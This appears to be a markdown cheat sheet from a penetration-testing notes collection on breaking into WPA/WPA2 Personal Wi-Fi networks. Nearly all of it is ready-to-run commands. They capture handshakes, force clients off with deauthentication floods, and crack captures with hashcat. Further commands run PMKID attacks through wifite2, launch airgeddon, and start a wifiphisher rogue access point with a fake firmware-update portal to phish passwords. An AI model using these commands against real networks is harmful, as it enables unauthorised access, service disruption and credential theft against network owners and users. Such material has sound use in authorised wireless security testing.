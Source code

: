 # WPA/WPA2 Personal




## 4-Way Handshake

* [https://www.wifi-professionals.com/2019/01/4-way-handshake](https://www.wifi-professionals.com/2019/01/4-way-handshake)
* [https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work](https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work)
* [https://www.aircrack-ng.org/doku.php?id=cracking_wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
* [https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng](https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng)
* [https://hackware.ru/?p=74](https://hackware.ru/?p=74)
* [https://hackware.ru/?p=7542](https://hackware.ru/?p=7542)
* [https://hackware.ru/?p=5209](https://hackware.ru/?p=5209)

1\. Look for targets. Save BSSID (`00:00:00:00:00:01`), CH (`9`), ESSID (`SomeEssid`) and STATION (`00:00:00:00:00:02`) if deauth will be required:

```
$ sudo airodump-ng -M -U wlan1 [-c 36-165 (for 5GHz, see WLAN channels) or just -c 1-200 for all] [--band <abg>]
qq
```

2\. Start dumping the target's traffic:

```
[$ sudo iwconfig wlan1 channel 9]
$ sudo airodump-ng -c 9 --bssid 00:00:00:00:00:01 -w SomeEssid wlan1
```

3\. Send DeAuth packets in a separate terminal till `WPA handshake: XX:XX:XX:XX:XX:XX` appears (aggressive):

```
$ sudo aireplay-ng [-D] -0 2 -a 00:00:00:00:00:01 -c 00:00:00:00:00:02 wlan1
Or
$ for client in `cat 00:00:00:00:00:01.txt`; do sudo aireplay-ng -D -0 2 -a 00:00:00:00:00:01 -c $client wlan1; done
```

4\. Clean the capture, check it once again, covert to Hashcat format and crack it:

```
$ aircrack-ng SomeEssid*.cap
$ wpaclean SomeEssid-cleaned.cap SomeEssid-01.cap
$ cowpatty -r SomeEssid-cleaned.cap -s SomeEssid -c
$ /usr/lib/hashcat-utils/cap2hccapx.bin SomeEssid-cleaned.cap SomeEssid.hccapx
$ hashcat -m 2500 -O -a 0 -w 4 --session=wpa2_handshakes -o wpa2_handshakes.out wpa2_handshakes.in SomeEssid.hccapx seclists/Passwords/darkc0de.txt
```



### wifite2

```
$ sudo wifite -vi wlan1 --clients-only --wpa --no-wps
```




## PMKID

* [https://https://habr.com/ru/company/jetinfosystems/blog/419383/](https://habr.com/ru/company/jetinfosystems/blog/419383/)



### wifite2

```
$ sudo wifite -vi wlan1 --pmkid
```




## wifite2

* [https://github.com/derv82/wifite2](https://github.com/derv82/wifite2)
* [https://github.com/nuncan/wifite2mod](https://github.com/nuncan/wifite2mod)

> «Поэтому оптимальный алгоритм взло… аудита следующий: определяем, включен ли на целевой точке доступа режим WPS. Если да, запускаем PixieDust. Безуспешно? Тогда перебор известных пинов. Не получилось? Проверяем, не включено ли шифрование WEP, которое тоже обходится влет. Если нет, то выполняем атаку PMKID на WPA(2). Если уж и так не получилось, тогда вспоминаем классику и ждем хендшейка (чтобы не палиться) или активно кикаем клиентов, чтобы наловить их сессии авторизации.» — [\]\[](https://xakep.ru/2020/01/27/wifi-total-pwn/)

Install wifite2:

```
$ git clone https://github.com/derv82/wifite2 ~/tools/wifite2 && cd ~/tools/wifite2
$ sudo python setup.py install
```

Install hcxdumptool (for capturing PMKID hashes):

```
$ git clone https://github.com/ZerBea/hcxdumptool.git ~/tools/hcxdumptool && cd ~/tools/hcxdumptool
$ sudo apt install libcurl4-openssl-dev libssl-dev -y
$ make
$ sudo make install
```

Install (for converting PMKID packet captures into hashcat's format):

```
$ git clone https://github.com/ZerBea/hcxtools.git ~/tools/hcxtools && cd ~/tools/hcxtools
$ make
$ sudo make install
```

Fire up wifite2:

```
$ sudo wifite -vi wlan1 [--kill] [-5]
```




## airgeddon

* [https://github.com/v1s1t0r1sh3r3/airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon)

```
$ git clone --depth 1 https://github.com/v1s1t0r1sh3r3/airgeddon.git ~/tools/airgeddon && cd ~/tools/airgeddon
$ sudo bash airgeddon.sh
```




## wifiphisher

* [https://github.com/wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher)
* [Creating a custom phishing scenario · wifiphisher/wifiphisher](https://github.com/wifiphisher/wifiphisher/blob/5ae21ab93e0dce85dd4bf76e68cc3b996aa33dea/docs/custom_phishing_scenario.rst)

Install:

```
$ git clone https://github.com/wifiphisher/wifiphisher.git ~/tools/wifiphisher && cd ~/tools/wifiphisher
$ sudo python3 setup.py install # Install any dependencies
```

Start a rogue AP with fake captive portal (firmware update scenario) on wlan1 and deauth clients with wlan2:

```
$ sudo wifiphisher -aI wlan1 -eI wlan2 -p wifi_connect
```
